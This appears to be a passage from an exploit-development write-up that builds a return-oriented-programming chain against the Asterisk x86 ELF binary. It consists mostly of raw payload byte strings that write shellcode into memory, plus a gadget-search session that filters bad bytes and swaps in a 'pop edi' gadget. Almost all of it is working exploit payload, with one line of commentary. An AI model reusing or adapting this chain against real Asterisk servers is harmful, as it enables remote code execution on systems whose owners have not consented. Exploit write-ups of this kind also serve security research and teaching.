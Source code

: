 ```
'\x00\xa4\x08\x08$\xe3\x15\x08\xd9\xc1\xbd\xa6=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08(\xe3\x15\x08\xe2\xd0>\xd9=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08,\xe3\x15\x08t$\xf4_=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x080\xe3\x15\x08+\xc9\xb1\x14=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x084\xe3\x15\x08\x83\xef\xfc1=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x088\xe3\x15\x08o\x15\x03o=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08<\xe3\x15\x08\x15D\x17\xe1=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08@\xe3\x15\x08\xe5\x7f;Q=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08D\xe3\x15\x08Y,\xd6T=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08H\xe3\x15\x08\xd43\x96?=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08L\xe3\x15\x08+3\x8c\xe1=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08P\xe3\x15\x08\xe1[1\x1e=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08T\xe3\x15\x08\x17\xc7_\x0e=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08X\xe3\x15\x08F\xa7\x16\xcf=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08\\\xe3\x15\x08\x02!q\xdd=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08`\xe3\x15\x08S$\xc0\xd9=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08d\xe3\x15\x08\xe02s\x87=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08h\xe3\x15\x08\xcb\xba0\xf8=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08l\xe3\x15\x08\xb2w6k=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08p\xe3\x15\x08c\xed\x08\xd4=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08t\xe3\x15\x08Yq?\x9d=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08x\xe3\x15\x08\x99\x19\xefr=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08|\xe3\x15\x08)\xb1\x87\xa3=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08\x80\xe3\x15\x08\xaf(65=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08\x84\xe3\x15\x08\xcc\xfa\x95\xcc=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08\x88\xe3\x15\x08\xf2J\x12\x02=\x1d\x11\x08\xb1\xab\n\x08\x00\xa4\x08\x08\x8c\xe3\x15\x08t\xff\xff\xff=\x1d\x11\x08\xb1\xab\n\x08'

>>> len(chain.payload_str())
540

```

The "pop edi" gadget contains null bytes... awesome. I just do a search/replace
with my own gadget.
```
(asterisk/ELF/x86)> settings badbytes 00090a0b200c0d
[LOAD] filtering badbytes... 100%
[LOAD] removing double gadgets... 100%
(asterisk/ELF/x86)> search pop edi
[INFO] Searching for gadgets: pop edi
[INFO] File: asterisk
...
0x080e0381: pop edi; pop ebp; ret;
```

```
'\x81\x03\x0e\x08$\xe3\x15\x08\xd9\xc1\xbd\xa6=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08(\xe3\x15\x08\xe2\xd0>\xd9=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08,\xe3\x15\x08t$\xf4_=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x080\xe3\x15\x08+\xc9\xb1\x14=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x084\xe3\x15\x08\x83\xef\xfc1=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x088\xe3\x15\x08o\x15\x03o=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08<\xe3\x15\x08\x15D\x17\xe1=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08@\xe3\x15\x08\xe5\x7f;Q=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08D\xe3\x15\x08Y,\xd6T=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08H\xe3\x15\x08\xd43\x96?=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08L\xe3\x15\x08+3\x8c\xe1=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08P\xe3\x15\x08\xe1[1\x1e=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08T\xe3\x15\x08\x17\xc7_\x0e=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08X\xe3\x15\x08F\xa7\x16\xcf=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08\\\xe3\x15\x08\x02!q\xdd=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08`\xe3\x15\x08S$\xc0\xd9=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08d\xe3\x15\x08\xe02s\x87=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08h\xe3\x15\x08\xcb\xba0\xf8=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08l\xe3\x15\x08\xb2w6k=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08p\xe3\x15\x08c\xed\x08\xd4=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08t\xe3\x15\x08Yq?\x9d=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08x\xe3\x15\x08\x99\x19\xefr=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08|\xe3\x15\x08)\xb1\x87\xa3=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08\x80\xe3\x15\x08\xaf(65=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08\x84\xe3\x15\x08\xcc\xfa\x95\xcc=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08\x88\xe3\x15\x08\xf2J\x12\x02=\x1d\x11\x08\xb1\xab\n\x08\x81\x03\x0e\x08\x8c\xe3\x15\x08t\xff\xff\xff=\x1d\x11\x08\xb1\xab\n\x08'
```
